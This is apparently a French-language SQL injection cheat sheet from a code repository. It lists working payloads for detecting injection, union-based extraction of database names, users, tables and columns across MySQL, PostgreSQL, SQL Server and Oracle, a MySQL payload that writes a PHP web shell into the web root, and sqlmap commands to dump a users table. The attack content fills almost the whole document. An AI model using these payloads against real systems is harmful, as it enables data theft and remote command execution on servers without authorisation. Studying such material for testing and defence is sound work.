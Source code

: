 # Cheatsheet : Injection SQL

L'injection SQL est une vulnérabilité de sécurité qui permet à un attaquant d'interférer avec les requêtes qu'une application fait à sa base de données.

## Détection

### Erreurs basées sur les injections
*   Ajouter un guillemet simple `'` à la fin d'un paramètre d'URL ou d'un champ de formulaire. Si une erreur SQL apparaît, c'est un bon signe.
    *   `http://example.com/produit?id=1'`
*   Utiliser des opérateurs logiques pour tester la vulnérabilité :
    *   `' OR 1=1--` (MySQL, PostgreSQL, Oracle)
    *   `" OR 1=1--`
    *   `) OR 1=1--`
    *   `') OR 1=1--`

### Injections aveugles (Blind SQL Injection)
Lorsque les messages d'erreur sont supprimés, on utilise des techniques basées sur le temps ou les booléens.

#### Basé sur le temps (Time-based)
*   MySQL/PostgreSQL : `SLEEP(5)`
    *   `' UNION SELECT SLEEP(5)--`
    *   `' AND SLEEP(5)--`
*   Microsoft SQL Server : `WAITFOR DELAY '0:0:5'`
    *   `' WAITFOR DELAY '0:0:5'--`
*   Oracle : `DBMS_PIPE.RECEIVE_MESSAGE(('a'),5)`
    *   `' AND 1=DBMS_PIPE.RECEIVE_MESSAGE(('a'),5)--`

#### Basé sur les booléens (Boolean-based)
*   Tester des conditions vraies/fausses pour déduire des informations.
    *   `' AND 1=1--` (devrait retourner le résultat normal)
    *   `' AND 1=2--` (devrait retourner aucun résultat ou une erreur)

## Exploitation

### Union-based SQL Injection
Utilisé pour récupérer des données de la base de données en utilisant l'opérateur `UNION SELECT`.

1.  **Déterminer le nombre de colonnes :**
    *   `' ORDER BY 1--`, `' ORDER BY 2--`, etc., jusqu'à ce qu'une erreur se produise.
    *   `' UNION SELECT NULL, NULL, NULL--` (ajuster le nombre de NULLs)
2.  **Trouver les colonnes affichables :**
    *   `' UNION SELECT 1,2,3--` (remplacer les NULLs par des nombres pour voir quelles colonnes sont affichées)
3.  **Extraire des informations :**
    *   MySQL : `' UNION SELECT 1, database(), user()--`
    *   PostgreSQL : `' UNION SELECT 1, current_database(), current_user--`
    *   Microsoft SQL Server : `' UNION SELECT 1, DB_NAME(), SYSTEM_USER--`
    *   Oracle : `' UNION SELECT 1, SYS.DATABASE_NAME, SYS.USER--`

### Extraction de tables et colonnes

*   **MySQL :**
    *   Tables : `' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--`
    *   Colonnes : `' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--`
*   **PostgreSQL :**
    *   Tables : `' UNION SELECT 1, string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema = 'public'--`
    *   Colonnes : `' UNION SELECT 1, string_agg(column_name, ',') FROM information_schema.columns WHERE table_name = 'users'--`
*   **Microsoft SQL Server :**
    *   Tables : `' UNION SELECT 1, name FROM master..sysdatabases--` (pour les bases de données)
    *   Tables : `' UNION SELECT 1, name FROM sysobjects WHERE xtype = 'U'--` (pour les tables de la base de données actuelle)
    *   Colonnes : `' UNION SELECT 1, name FROM syscolumns WHERE id = OBJECT_ID('users')--`

### Écriture de fichiers (File Write)
Si la base de données a les permissions nécessaires (ex: `FILE` privilege en MySQL).

*   MySQL : `' SELECT '<?php system($_GET[\'cmd\']); ?>' INTO OUTFILE '/var/www/html/shell.php'--`

## Outils

*   **SQLMap :** Outil automatisé pour détecter et exploiter les injections SQL.
    *   `sqlmap -u "http://example.com/produit?id=1" --dbs`
    *   `sqlmap -u "http://example.com/produit?id=1" -D database_name -T users --dump`